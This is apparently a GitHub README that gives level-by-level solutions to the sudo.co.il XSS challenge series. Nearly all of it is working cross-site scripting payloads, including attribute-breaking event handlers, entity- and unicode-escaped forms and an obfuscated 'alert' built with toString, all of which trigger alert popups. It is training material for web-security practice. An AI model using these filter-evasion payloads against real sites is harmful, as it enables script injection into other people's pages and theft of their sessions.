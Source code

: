 ![XSS Challenge](https://github.com/brono4/XSS-challenges/blob/main/XSS.jpg)



# 🚨 Solutions of XSS Challenges of http://sudo.co.il/xss/

---
## 🎯 Goal for CTFs:

**Our goal is to trigger a popup displaying  — all without requiring any user interaction! 🚫🖱️**


## ## 🔓 Challenge Solutions

- Level 0 🧪
```
<img src=1 onerror=alert(document.domain)>
```
- Level 1🧪
```
"><img src=1 onerror=alert(document.domain)>
```

- Level 2 🧪
```
" autofocus onfocus=alert(1) x="
```
- Level 3 🧪
```
"autofocus/onfocus="alert(document.domain)
```

- Level 4 🧪
```
"autofocus/onfocus="&#x61;lert&#x28;document.domain&#x29;
```

- Level 5.1 🧪
```
'-alert(document.domain);<!--
```
- Level 5.2 🧪
```
\'-alert(1);<!--
```
- Level 6 🧪
```
\'-alert(document.domain);//
```
- Level 7 🧪
```
" autofocus onfocus=alert(1) x="    #like 2
```
- Level 8 🧪
```
this[8680439..toString(30)](document.domain)
```
- Level 8.1 🧪
```
"};this[8680439..toString(30)](document.domain);{"
```
- Level 9 🧪
```
"};this[8680439..toString(30)](document.domain);{"
```
- Level 10 🧪
```
';this[8680439..toString(30)](document.domain);'
```

- Level 11 🧪
```
#<script>alert(document.domain)</script>
```
🧨 Level 12 — External Payload Injection

📎 Go to: http://untrusted.sudo.co.il/iframe.php?p=

Paste the following encoded payload:

%27%3Bal%5Cu0065rt%28m%29%3B%2F%2F

🔗 Final link:

http://untrusted.sudo.co.il/iframe.php?p=%27%3Bal%5Cu0065rt%28m%29%3B%2F%2F

---
### 👨‍💻 Author
💻 Made with ❤️ by Bruno.





